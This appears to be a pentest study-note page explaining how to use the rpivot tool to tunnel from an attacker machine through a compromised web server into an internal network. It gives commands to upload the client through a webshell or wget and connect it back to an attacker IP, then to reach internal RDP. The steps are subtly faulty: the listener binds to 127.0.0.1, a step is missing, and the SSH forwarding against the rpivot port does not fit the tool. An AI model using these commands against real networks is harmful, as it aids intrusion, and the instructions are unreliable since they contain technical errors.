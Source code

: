 
## What Is `rpivot`?

**`rpivot`** is a tool that helps you **pivot through a compromised web server**.

> Think of it like this:  
> 🎯 You’ve compromised a web server, but you want to explore the **internal network behind it**.  
> ❌ You _can’t_ SSH into the web server.  
> ✅ But you _can_ upload and run a Python script (like a webshell or reverse shell).

That’s where **`rpivot`** helps.
It sets up a **tunnel** between:
- Your **attacker machine**
- The **internal network**, going **through** the web server you control
___
##  How Does It Work?

1. You run the `rpivot` **client** on the web server (that you control).
2. You run the `rpivot` **server** on your attack machine.
3. It sets up a **tunnel** between the two.
4. You can now use tools (like Nmap, RDP, FTP, etc.) on **internal hosts** as if they’re on your own network.

### Step 1: Start `rpivot` Server (on your Kali or Pwnbox)
```bash
python3 rpivot-server.py -l 127.0.0.1 -p 9001
```
This will:

    Start listening on 127.0.0.1:9001
    Wait for the connection from the web server
### Step2: Upload and Start `rpivot` Client (on the web server)
just transfer using a webshell, wget, curl, etc.
```bash
python3 rpivot-client.py -s <YOUR_ATTACK_IP> -p 9001
```
Replace `<YOUR_ATTACK_IP>` with your real IP (e.g., 10.10.14.25).
This command:
- Connects the compromised server **back** to your listener
- Creates a tunnel

### ### Step 4: Forward Local Ports to Internal Targets

Let’s say you want to access `172.16.5.19:3389` (RDP) through the tunnel.

On your own box:
```bash
ssh -L 13389:172.16.5.19:3389 127.0.0.1 -p 9001
```
Then open:
```bash
rdesktop 127.0.0.1:13389
```